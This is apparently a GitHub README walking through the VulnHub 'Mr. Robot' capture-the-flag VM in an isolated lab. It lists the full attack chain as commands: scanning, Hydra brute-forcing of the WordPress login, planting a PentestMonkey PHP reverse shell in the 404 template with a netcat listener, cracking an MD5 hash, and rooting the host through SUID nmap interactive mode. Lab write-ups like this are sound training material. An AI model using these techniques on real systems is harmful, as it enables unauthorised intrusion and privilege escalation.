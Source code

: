 # Mr. Robot CTF Walkthrough

## Overview

This repository contains a comprehensive walkthrough of the **Mr. Robot** CTF challenge on VulnHub. Inspired by the _Mr. Robot_ TV series, this challenge involves exploiting a vulnerable web application, gaining server access, escalating privileges, and capturing hidden flags. Rated as **Easy-Medium**, this CTF provides an engaging learning experience for cybersecurity enthusiasts.

- **Difficulty**: Easy-Medium  
- **Operating System**: Linux  
- **VM Source**: [Vulnhub - Mr. Robot](https://www.vulnhub.com/entry/mr-robot-1,151/)

---

## Table of Contents

1. [Objectives](#objectives)
2. [Network Configuration](#network-configuration)
3. [Technical Requirements](#technical-requirements)
4. [Setup](#setup)
5. [Walkthrough](#walkthrough)
   - [Flag One](#flag-one)
   - [Flag Two](#flag-two)
   - [Flag Three](#flag-three)
6. [Post-Exploit Analysis](#post-exploit-analysis)
7. [Takeaways](#takeaways)

---

## Objectives

The primary objectives of this CTF include:

1. Gaining initial access to the target machine.
2. Performing privilege escalation.
3. Capturing the three hidden flags within the target system.

---

## Network Configuration

- **Attacker Machine**: Kali Linux (VirtualBox/VMware)
- **Target Machine**: Mr. Robot VM (Connected to an isolated network)
- **Internal Network**: SoldierNet (for isolated communication between attacker and target)

**IP Configuration**:
- Attacker IP: `192.168.56.11`
- Target IP: `192.168.56.10`
- IP Range: `192.168.56.0/24`

---

## Technical Requirements

The following tools were used throughout the walkthrough:

- **BurpSuite**: For intercepting HTTP requests
- **Nmap**: For scanning open ports and services
- **Nikto**: For web vulnerability scanning
- **WPScan**: For WordPress brute-forcing
- **John the Ripper**: For hash cracking
- **Hydra**: For brute-forcing login credentials
- **Netcat**: For establishing reverse shells
- **Linux Enumeration Scripts**: For privilege escalation analysis

---

## Setup

1. Download and set up the Mr. Robot VM from [Vulnhub](https://www.vulnhub.com/entry/mr-robot-1,151/).
2. Add the VM to your preferred hypervisor (VirtualBox/VMware) and connect it to an isolated network for secure testing.
3. Power on the VM and start your attacker machine to begin reconnaissance.

---

## Walkthrough

### Flag One

1. **Initial Nmap Scan**  
    Identify open ports and services on the target machine:
    ```bash nmap -sS -sV -Pn 192.168.56.10``
    ![Nmap Scan](path-to-file)

2. **Nikto Web Vulnerability Scan**
    Scan for potential vulnerabilities:
    ```bash nikto -h http://192.168.56.10 ```
    ![Nikto Scan](path-to-file)

3. **Access robots.txt and Download Files**
    use 'wget' to retrieve files foind in 'robots.txt':
    ```bash wget http://192.168.56.10/robots.txt```

4. **Capture Flag One**
    Display contents of retrieved files to find first flag.
    ![FlagOne](path-to-file)
### Flag Two

1. **Nikto WordPress Vulnerability Scan**
    Perform a Nikto scan to identify WordPress vulnerabilities:
    ```bash nikto -h http://192.168.56.10```
    ![NiktoWPscan](path-to-file)

2. **Connect to WordPress Login Page**
    Navigate to the WordPress login page in your browser:
    ```bash http://192.168.56.10/wp-admin```
    ![WordPress Login](path-to-file)

3. **Capture HTTP Request with BurpSuite**
    Use BurpSuite to intercept and analyze the HTTP request:
    ```bash sudo burpsuite```
    ![BurpSuiteResults](path-to-file)

4. **Enumerate Username with Hydra**
    Use Hydra to enumerate possible usernames:
    ```bash hydra -L usernames.txt -P passwords.txt 192.168.56.10 http-post-form "/wp-login.php"```
    ![HydraResults](path-to-file)

5. **Brute-Force WordPress Site with WPScan**
    Use WPScan to brute-force login credentials:
    ```bash wpscan --url http://192.168.56.10 --enumerate u```
    ![WPscanResults](path-to-file)

6. **Login to WordPress and Obtain Reverse Shell Payload**
    After logging into WordPress, download a reverse shell payload from PentestMonkey and set your attacker IP and desired port.
    [pentestmonkey](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)

7. **Inject Reverse Shell in 404 Template**
    Go to Appearance -> Editor -> 404 Template in WordPress and replace the content with your reverse shell payload.
    ![WordPressTemplate404](path-to-file)

8. **Initiate Listener**
    Set up a Netcat listener on the attacker machine:
    ```bash nc -lvnp 443```
    Then, visit the 404 page to trigger the reverse shell:
    ```bash http://192.168.56.10/wp-content/themes/twentyfifteen/404.php```

9. **Upgrade Shell with Python**
    Once the shell is established, upgrade it for a better TTY experience:
    ```bash python -c 'import pty; pty.spawn("/bin/bash")'```
    ![PythonShell](path-to-file)

10. **Locate 'robot' User Directory**
    Navigate to the '/home/robot' directory to find files related to the second flag.
    ![RobotFolder](path-to-file)

11. **Crack MD5 Password File with JohntheRipper**
    Use John the Ripper to crack the MD5 hash in the 'password.raw-md5' file:
    ```bash john --format=raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt password.raw-md5```
    ![JohntheRipperResults](path-to-file)

12. **Switch user to 'robot'**
    Switch to the robot user with the cracked password and capture Flag Two.
    ![FlagTwo](path-to-file)

### Flag Three

1. **Privelege Escalation**
    Search for files with SUID permissions, which can be exploited for privilege escalation:
    ```bash find / -user root -perm -4000 -exec ls -ldb {} \; 2> /dev/null```
    ![FindResults](path-to-file)

2. **Exploit Nmap Interactive Mode**
    Use Nmap’s interactive mode to gain root access:
    ```bash sudo nmap --interactive```
    Start a shell from within the interactive Nmap session:
    ```bash !sh```
    ![NmapIntResults](path-to-file)

3. **Capture Flag Three**
    As root, access and read the third flag file located in '/root/key-3-of-3.txt'.
    ![FlagThree](path-to-file)